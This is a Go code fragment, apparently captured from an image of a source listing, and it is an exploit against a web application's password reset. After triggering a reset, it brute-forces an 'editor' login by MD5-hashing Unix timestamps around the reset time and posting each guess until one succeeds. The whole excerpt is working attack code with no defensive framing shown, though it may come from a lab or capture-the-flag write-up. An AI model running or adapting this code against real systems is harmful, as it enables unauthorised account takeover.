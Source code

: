 ```go

	client := &http.Client{}
	resp, err := client.Do(r)
	if err != nil {
		panic(err)
	}
	defer resp.Body.Close()

	fmt.Printf("resp: %v\n", resp)

	// Get the body
	body, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		panic(err)
	}
	fmt.Printf("body: %s\n", body)

	// Wait for the email to be sent
	time.Sleep(10 * time.Second)

	for i := -5; i < 20; i++ {
		// Login as editor
		password := unix_to_md5(timeOfReset + int64(i))
		r, err = http.NewRequest("POST", HOST+"/login", bytes.NewBufferString("name=editor&password="+password))
		if err != nil {
			panic(err)
		}

		r.Header.Add("Content-Type", "application/x-www-form-urlencoded")

		resp, err = client.Do(r)
		if err != nil {
			panic(err)
		}
		defer resp.Body.Close()

		fmt.Printf("resp: %v\n", resp)

		// Get the body
		body, err = ioutil.ReadAll(resp.Body)
		if err != nil {
			panic(err)
		}
		if strings.Contains(string(body), "Couldn&#39;t find a user with those credentials") {
			fmt.Printf("Couldn't find a user with those credentials\n")
			continue
		}

		fmt.Printf("body: %s\n", body)
		fmt.Printf("password: %s", password)
		break
	}
}
```
